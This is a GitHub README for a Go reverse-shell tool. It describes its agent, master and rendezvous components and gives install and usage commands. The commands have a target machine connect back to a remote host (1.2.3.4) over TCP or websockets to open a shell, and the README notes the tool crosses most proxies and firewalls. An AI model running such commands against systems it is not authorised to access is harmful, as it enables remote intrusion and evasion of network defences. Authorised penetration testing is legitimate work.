 ## A simple reverse-shell written in Go

[![Build Status](https://travis-ci.org/maxlaverse/reverse-shell.svg?branch=master)](https://travis-ci.org/maxlaverse/reverse-shell)
[![Code Coverage](https://codecov.io/gh/maxlaverse/reverse-shell/branch/master/graph/badge.svg)](https://codecov.io/gh/maxlaverse/reverse-shell)


**Disclaimer: This project is for research purposes only, and should only be used on authorized systems.**

---

## Introduction
"A reverse shell is a type of shell in which the target machine communicates back to the attacking machine. The attacking machine has a listener port on which it receives the connection, which by using, code or command execution is achieved." ([source](http://resources.infosecinstitute.com/icmp-reverse-shell/))

A reverse shell is also really useful when you're playing with your SSH server and want to have a backup plan
in case of misconfiguration.

Of course the simplest and most portable way is to use [Netcat](http://nc110.sourceforge.net/).

Here is a some features of this Go implementation:
* good portability
* can cross most proxies and firewalls with default configuration (using websockets, on https, on standard ports)
* auto-reconnection
* supports having multiple shells running on a single agent

This projects contains 3 applications that help you setting and interacting with remote shells:
* an `agent` to be started on the server where you want to open a shell
* a `master` waiting for agent connections and that allow you to interact with the shells
* a `rendezvous` application providing a central point where agents and masters meet when a direct connection is not possible/wanted (not mandatory)

## Installation
Download the binaries
```bash
curl -O -L -s /dev/null https://github.com/maxlaverse/reverse-shell/releases/download/v0.0.1/reverse-shell-0.0.1-linux-amd64.tar.gz | tar xvz
```

Or build from source
```bash
$ git clone https://github.com/maxlaverse/reverse-shell
$ cd reverse-shell && make
```

## Example of usage
Direct, with TCP:
```bash
# On the master (1.2.3.4)
$ nc 1.2.3.4 7777

# On the target
$ reverse-shell-agent tcp --host=1.2.3.4 --port=7777
```

Direct with Websockets:
```bash
# On the master (1.2.3.4)
$ reverse-shell-master listen --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777
```

With a rendezvous:
```bash
# On the rendezvous (1.2.3.4)
$  reverse-shell-rendezvous --port=7777

# On the target
$ reverse-shell-agent websocket --url=http://1.2.3.4:7777

# On the master
$ reverse-shell-master rendezvous list-agents --url=http://1.2.3.4:7777
List of agents:
* 3.4.5.6:65000

# Create a session
$ reverse-shell-master rendezvous create-session --url=http://1.2.3.4:7777 3.4.5.6:65000
```

The complete usage is available for each component:
- [agent](docs/agent/reverse-shell-agent.md)
- [master](docs/master/reverse-shell-master.md)
- [rendezvous](docs/rendezvous/reverse-shell-rendezvous.md)

## Todo
* add scp-like commands
* improve logging messages
* read variables from environment
* have agent send its IP  and rendez vous showing the proxy client one
